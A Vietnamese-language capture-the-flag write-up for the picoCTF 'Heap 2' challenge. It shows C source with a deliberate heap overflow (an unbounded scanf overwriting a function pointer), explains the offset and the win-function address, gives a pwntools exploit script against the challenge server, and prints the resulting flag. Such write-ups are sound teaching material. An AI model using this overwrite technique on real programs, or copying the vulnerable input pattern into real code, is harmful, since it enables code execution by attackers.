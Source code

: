 ## Heap 2
Can you handle function pointers?

Download the binary here.

Download the source here.

Additional details will be available after launching your challenge instance.

## Solution
#### Source code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

* Dựa vào source, ta có thể dùng buffer overflow để ghi đè lên biến `input_data`. Bây giờ việc cần phải làm là xác định được số ký tư để đè và địa chỉ của hàm win để đưa vào cuối chuỗi buffer.
* `void check_win() { ((void (*)())*(int*)x)(); }` khi truyền vào x một địa chỉ hàm thì nó sẽ thực thi luôn hàm đó, vậy ta cần ghi đè địa chỉ hàm `win` lên biến x.
* Chạy file binary và thử in Heap:
```
I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x17776b0  ->   pico
+-------------+-----------+
[*]   0x17776d0  ->   bico
```
* Vậy 0x17776b0 là địa chỉ của `input_data` và 0x17776d0 là địa chỉ của `x` => 2 biến cách nhau 32 bytes.
* Lấy đựa địa chỉ hàm win là `0x00000000004011a0`.

Đây là file exploit:
```
from pwn import *

p = remote('mimas.picoctf.net', 60033)

p.sendline(b'2')
p.sendline(b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00')
p.sendline(b'4')

print(p.recvall())
```

Thu được flag: `picoCTF{and_down_the_road_we_go_dbb7ff66}`
